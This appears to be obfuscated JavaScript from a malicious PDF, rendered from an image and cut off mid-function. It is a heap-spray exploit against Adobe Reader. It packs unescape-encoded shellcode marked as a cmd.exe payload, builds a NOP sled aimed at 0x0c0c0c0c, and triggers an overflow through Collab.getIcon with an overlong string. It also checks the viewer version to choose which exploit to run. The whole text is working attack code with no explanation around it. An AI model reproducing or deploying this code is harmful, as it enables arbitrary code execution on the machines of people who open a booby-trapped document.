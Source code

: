 ```js
function updateE() {
        var xI = new String("");
        if (c.doc.Collab.getIcon) {    
              var arry = new Array();
                    // cmd.exe payload
              var vvpethya = unescape("%ud3b8%u7458%ud901%u2bcb%ud9c9%u2474%ub1f4%u5a65%u4231%u0312%u1242%u3983%u96a4%u56f4%u0d45%u9bbd%ud7af%ue7f8%u982e%u1dcf%u7aa8%ucad5%u92cf%uf3c1%u9d2f%u4766%ufb49%u941e%uc494%u8389%uacfe%u6ad8%udd95%u0935%uf3a2%u801c%ub2d9%u488c%u2678%u0b5c%udd62%u01f4%u5b82%u4792%u4b5e%u2d2e%ubc2a%uf9ff%ue4c1%u9b9a%u83f7%ucc69%u3938%u1fb1%u7e29%uc50b%ue214%u8248%udcd8%ub3b7%u890b%ue425%uab91%u5210%u5192%uc8fc%u9932%u9def%ubaa1%u0795%u1c9f%uacee%uc5ba%u4b1c%uaf20%u0832%u3e47%u9129%uacf0%ude04%u1062%ue9e7%u0804%uf391%ubf69%ucc69%u71f0%u1108%uccee%u0d20%ubecf%ub462%ud949%u9971%u15e3%u3c5a%ub053%u5d89%u6c82%u6648%u07ae%u7ad2%u148a%ub09d%u1572%u1aab%u33e6%u5a91%ub8af%u4744%udd4a%u8b98%u47f2%u2af0%ub1cc%u03cf%u2707%ufe1e%ued8a%uca57%u23cd%u030e%u7277%u39bc%ubf21%u6423%udf3e%u5d93%uea71%u2a42%u2b4d%ud7b8%u0626%u7de4%ue9b8%ue771%uc85c%u0a82%u1f69%u2e8c%u1db2%u258c%u34bf%u2085%u359e%u98b7%u2cff%ue0a5%u6cf4%uf3c6%u7409%uf5ca%u6919%u60cd%u9a13%u4e19%ua74d%uf71c%ub952%uea11%ucba6%u0839%ud1c0%u2527%ud2c7%u10a5%ud8d8%u62bd%ufff2%u0b9a%uebe9%udfee%u1c04%ud389%u3622%u1d77%u4e5a%u177d%u4c5b%u21b3%u5f43%u31b9%u39a4%ubd2a%u4a21%u1291%uc8e5%u0389%u229e%ub43a%u5e0e%u24c3%ud4aa%ud71d%u7246%u4a4c%u53de%ufbf6%uc952%u7098%u72fa%u153a%u1594%ub5a8%ub801%u2057%u29e5%uc6f9%ud08e%u738b%u275f%u1e42%u22e7%u411a");
                    var updateX = 39796;    
              var hWq500CN = vvpethya.length * 2;
              var len = 0x400000 - (hWq500CN + 0x38);
              var zAdobe = "";
              var yarsp = unescape("%u9090%u9090");
              var dU = "";
              yarsp = s(yarsp, len);
              this.zAdobeK = "";
              var p5AjK65f = (0x0c0c0c0c - 0x400000) / 0x400000;
              var aG = new Date();        
              for (var vqcQD96y = 0; vqcQD96y < p5AjK65f; vqcQD96y++) {
                  var lBasic = "";
                  arry[vqcQD96y] = yarsp + vvpethya;
                  var u = "";        
              }
              var iAlpha = function() {};
              var tUMhNbGw = unescape("%09");
              while (tUMhNbGw.length < 0x4000) {
                  this.gN = false;
                  tUMhNbGw += tUMhNbGw;
              }
              var hV = new String("");
              var nVE = function() {};
              tUMhNbGw = "N." + tUMhNbGw;
              c.doc.Collab.getIcon(tUMhNbGw);
        }
        this.wZ = 44811;
}
var hO = new String("");

function nO() {
        this.iR = false;
        var version = c.viewerVersion.toString();
        var zH = '';
        version = version.replace(/D/g, '');
        var varsion_array = new Array(version.charAt(0), version.charAt(1), version.charAt(2));
        if ((varsion_array[0] == 8) && (varsion_array[1] == 0) || (varsion_array[1] == 1 && varsion_array[2] < 3)) {
              cN();
        }
        this.wN = "";
        var aQ = new String("");
        if ((varsion_array[0] < 8) || (varsion_array[0] == 8 && varsion_array[1] < 2 && varsion_array[2] < 2)) {
```